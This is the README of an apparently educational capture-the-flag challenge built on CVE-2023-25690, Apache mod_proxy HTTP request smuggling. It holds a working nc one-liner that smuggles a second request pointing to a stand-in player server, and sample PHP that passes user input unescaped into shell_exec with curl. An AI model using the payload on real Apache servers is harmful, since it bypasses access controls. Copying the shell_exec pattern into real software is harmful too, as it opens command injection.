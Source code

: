 # Apache-Tide-Surfing-the-Waves-of-Request-Ambiguity

<p align="center">
  <a href="#installation">Install</a> •
  <a href="#documentation">Usage</a> •
  <a href="#about">About</a> •
  <a href="#exploit">Exploit</a> •
  <a href="#demo">Demo</a>
</p>

# Installation
```bash
git clone https://github.com/vigneshsb403/Apache-Tide-Surfing-the-Waves-of-Request-Ambiguity.git
cd Apache-Tide-Surfing-the-Waves-of-Request-Ambiguity
docker compose build
docker compose up
```
now you can visit your `localhost` to view the site is up.

# Documentation
```
Challenge name: Apache Tide: Unraveling the HTTP Request Smuggling
Sub-Challenge name: Local Odyssey: Navigating the Depths of Localhost
```
The challenge name gives a overview to the player that this challenge is about request smunggling and then the sub-challenge names the player hint that they have to acess the localhost to get the flag.

```
Hint 1: Did you go through the commented html code?
Hint 2: Visit Robots.txt
Hint 3: check the Server header from the responce
```
the final hint gives idea to the player that this challenge is based on a CVE.

I in the mission breaf we can add that there is a part of code like:
```php
if(isset($_GET['secret'])){
    $secret = $_GET['secret'];
    shell_exec("curl --location '" . $secret . "/dontlookhere'"); // this sends the flag to players server.
}
```
which gives players the overview that they have to pass in a listening servers host or ip to get the flag.
# About
this challenge is based on CVE 2023 25690.

Some mod_proxy configurations on Apache HTTP Server versions 2.4.0 through 2.4.55 allow a HTTP Request Smuggling attack. Configurations are affected when mod_proxy is enabled along with some form of RewriteRule or ProxyPassMatch in which a non-specific pattern matches some portion of the user-supplied request-target (URL) data and is then re-inserted into the proxied request-target using variable substitution. For example, something like: RewriteEngine on RewriteRule "^/here/(.*)" "http://example.com:8080/elsewhere?$1"; [P] ProxyPassReverse /here/ http://example.com:8080/ Request splitting/smuggling could result in bypass of access controls in the proxy server, proxying unintended URLs to existing origin servers, and cache poisoning. Users are recommended to update to at least version 2.4.56 of Apache HTTP Server.

# Exploit
this challenge can be solved by sending a request like:
```bash
echo "GET /categories/1%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aGET%20/categories.php%3fsecret%3dplayerserver.com HTTP/1.1\r\nHost: hostname\r\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)\r\n\r\n" | nc hostname 80
```
why this instered of BurpSuite or any other proxy because it is hard to replicate the unicodes there.

The `playerserver.com` must be changed to send the request to the players server.
also the hostname must be changed accordinnly.

# Demo
To be added


